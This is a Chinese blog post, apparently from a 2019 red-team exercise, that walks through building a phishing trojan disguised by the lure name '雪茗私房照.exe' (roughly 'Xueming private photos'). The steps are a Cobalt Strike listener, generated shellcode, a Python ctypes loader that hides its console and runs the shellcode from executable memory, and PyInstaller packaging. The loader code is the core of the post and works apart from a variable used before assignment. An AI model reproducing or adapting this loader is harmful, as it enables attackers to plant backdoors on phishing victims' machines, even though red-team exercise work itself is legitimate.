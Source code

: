 

@大家好.... hw.... 练习生 .... 唱 跳  rap 和 篮球...snowming

# 前言
此文写于护网期间（2019年6月6日），彼时刚刚回国，就碰上了护网，弥足珍贵的经历。

`雪茗私房照.exe` 主要是 [gophish+自己搭建邮件服务器](http://blog.leanote.com/post/snowming/gophish-%E8%87%AA%E5%B7%B1%E6%90%AD%E5%BB%BA%E9%82%AE%E4%BB%B6%E6%9C%8D%E5%8A%A1%E5%99%A8) 这篇文章里面用到的木马。

在本文中，详细介绍了此木马文件的制作过程。

---------------


# 第一步、设置 Cobalt Strike 客户端中的 Listener：
![title](https://leanote.com/api/file/getImage?fileId=5daa8b33ab64412e1f00014f)

# 第二步、payload generator --> 生成shellcode

![title](https://leanote.com/api/file/getImage?fileId=5daa8b49ab64412e1f000150)

![title](https://leanote.com/api/file/getImage?fileId=5daa8b54ab64413020000173)

![title](https://leanote.com/api/file/getImage?fileId=5daa8b62ab64412e1f000151)


# 第三步、python+shellcode 得到 test.py

``` python
from ctypes import *
import ctypes


#shellcode代码


#libc = CDLL('libc.so.6')
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4

def executable_code(buffer):
    buf = c_char_p(buffer)
    size = len(buffer)
    addr = libc.valloc(size)
    addr = c_void_p(addr)
    if 0 == addr: 
        raise Exception("Failed to allocate memory")
    memmove(addr, buf, size)
    if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
        raise Exception("Failed to set protection on buffer")
    return addr

VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()   
if whnd != 0:
       if 666==666:
              ctypes.windll.user32.ShowWindow(whnd, 0)   
              ctypes.windll.kernel32.CloseHandle(whnd)

memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))


buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                     buf,
                                     ctypes.c_int(len(shellcode)))


shell = cast(memorywithshell, CFUNCTYPE(c_void_p))

shell()

```

# 第四步、使用 PyInstaller python 转 exe

![title](https://leanote.com/api/file/getImage?fileId=5daa8cecab64413020000175)

# 第五步、坐等上线

![title](https://leanote.com/api/file/getImage?fileId=5daa9cf8ab64412e1f00017a)

![title](https://leanote.com/api/file/getImage?fileId=5daa9d03ab644130200001d5)